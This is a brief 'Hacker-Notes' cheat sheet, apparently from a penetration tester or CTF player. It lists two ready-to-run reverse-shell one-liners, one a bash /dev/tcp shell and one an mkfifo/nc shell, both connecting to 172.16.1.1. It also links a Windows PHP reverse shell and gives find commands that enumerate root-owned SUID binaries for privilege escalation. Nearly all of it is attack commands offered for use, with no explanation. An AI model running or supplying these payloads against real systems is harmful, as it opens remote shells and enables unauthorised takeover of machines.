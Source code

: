 # Hacker-Notes

PimpMyKali - https://github.com/Dewalt-arch/pimpmykali

Payloads - 

#!/bin/bash
bash -i >& /dev/tcp/172.16.1.1/443 0>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.1.1 4434 >/tmp/f

Windows reverse shell .php - https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php

SUIDS etc

find / -user root -perm -4000 -print 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -exec ls -ldb {} \;
